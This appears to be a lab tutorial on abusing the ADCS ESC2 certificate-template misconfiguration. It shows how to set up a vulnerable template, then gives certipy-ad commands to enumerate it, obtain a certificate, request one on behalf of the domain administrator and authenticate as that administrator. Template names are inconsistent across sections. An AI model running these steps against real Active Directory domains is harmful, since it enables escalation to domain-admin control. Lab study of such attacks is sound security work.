




# 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 2 (ESC2) Abuse Guide

## Reference

- [Blog for ADCE-ESC2](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-4/)

- [Youtube Video](https://youtu.be/BOwyMyykhIo?si=SKuXY7tZsJyl9J5u)

---

## What is ADCS ESC2?

**ESC2 (Escalation #2)** is a misconfiguration in Active Directory Certificate Services (ADCS) where a low-privileged user can request a certificate from a template that either:

- Allows **Any Purpose** in EKU (Extended Key Usage), **or**
- Has **no EKU configured at all**

This allows the attacker to:
- Authenticate to domain systems
- **Sign certificates on behalf of other users**, including Domain Admins
- Bypass constraints normally set by specific EKUs like "Client Authentication"

---
## Lab Setup

- **Domain Controller (DC):** `dc-01.furious.local`
- **Domain:** `furious.local`
- **Certificate Authority:** `furious-DC01-FURIOUS5-CA`
- **Vulnerable Template:** `Vulnerable-ESC1`

---

## Create a Vulnerable ESC2 Template

### Step 1: Duplicate a Template

1. Open **Certificate Templates Console**: `certtmpl.msc`
2. Right-click an existing user template ➤ **Duplicate Template**
3. Name it `Vulnerable-ESC2`

### Step 2: Set Permissions

- **Security Tab**:
  - `Domain Users` ➤ ✅ **Enroll**



### Step 3: Modify EKU

- Go to the **Extensions** tab
- Either:
  - Add **Any Purpose (2.5.29.37.0)** under Application Policies
  - Or remove all EKUs to make it **EKU-less**



### Step 4: No Manager Approval

- **Issuance Requirements** tab:
  - Make sure **"CA certificate manager approval"** is **unchecked**



### Step 5: Publish the Template

1. Open **Certification Authority Console**: `certsrv.msc`
2. Right-click **Certificate Templates** ➤ **New** ➤ **Certificate Template to Issue**
3. Select `ESC2_User` ➤ **OK**

---

## Exploiting ESC2 Misconfiguration in Active Directory Certificate Services (ADCS)

**ESC2** lets an attacker **gain code signing or client auth certs** via overly-permissive or EKU-less templates, which can be abused to **issue additional certificates** — including for privileged users.

---

##  Key Conditions for ESC2 Exploitation

### 1️⃣ Enroll Permissions for Low-Privilege Users

- Template allows **Domain Users**, **Authenticated Users**, or a specific low-privileged user to enroll.

>  **ESC2 Condition #1:** Enroll rights granted to non-privileged users

---

### 2️⃣ No Manager Approval Required

- Requests are **automatically approved**.

>  **ESC2 Condition #2:** No manual approval needed

---

### 3️⃣ Any Purpose EKU or No EKU at All

- **Any Purpose** (`2.5.29.37.0`) or **no EKU set**

>  **ESC2 Condition #3:** EKU = Any Purpose OR EKU = None


---

## Enumerating ESC2 with Certipy

```bash
certipy-ad find -u jack -p complex1@ -dc-ip 192.168.129.140 -vulnerable -enabled
```

- Look for a template like `Vulnerable-ESC2` that is vulnerable and enabled.

---

##  Exploit ESC2 in Two Stages

---

### 🔹 Stage 1: Request a Certificate for the Attacker

```bash
certipy-ad req -u 'jack' -p 'complex1@' \
  -dc-ip '192.168.129.140' \
  -target 'furious.local' \  
  -ca 'furious-DC01-FURIOUS5-CA' \
  -template 'Vulnerable-ESC2' \
  -debug
```

- This creates a `.pfx` file (e.g., `jack.pfx`) that can be used to **sign future certs**.

---

### 🔹 Stage 2: Request Certificate on Behalf of Domain Admin

```bash
certipy-ad req -u 'jack' -p 'complex1@' \
  -dc-ip '192.168.129.140' \ 
  -target 'furious.local' \  
  -ca 'furious-DC01-FURIOUS5-CA' \
  -template 'User' \
  -on-behalf-of 'furious\administrator' \
  -pfx jack.pfx \   
  -debug
```

- This uses `jack.pfx` to request a new cert **on behalf of a Domain Admin**

### Step 3: Authenticate with the Certificate

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.129.140
```
---


##  What is "Any Purpose" in EKU?

In the context of **Extended Key Usage (EKU)**, **"Any Purpose"** means that the certificate can be used for **any purpose**, even if specific EKUs (like client or server authentication) are **not explicitly listed**.

---

##  Meaning and Behavior

- The **OID** for "Any Purpose" is `2.5.29.37.0`.
- It acts like a **wildcard**, allowing the certificate to be accepted for **any of the following**:
  -  Client authentication
  -  Server authentication
  -  Code signing
  -  Smart card logon
  -  ... and essentially **any usage** that checks EKUs

---

##  EKU and Active Directory Certificate Services (AD CS)

In AD CS attacks:

- **ESC1** relies on a certificate template that has **EKU set specifically to "Client Authentication"**.
- **ESC2** is a **superset** or more general form of ESC1:
  - In ESC2, the template has **"Any Purpose"** (wildcard EKU), which still **includes client authentication**, but **indirectly**.
  - That means even though we're not explicitly using "Client Authentication", it is still allowed under "Any Purpose".

---
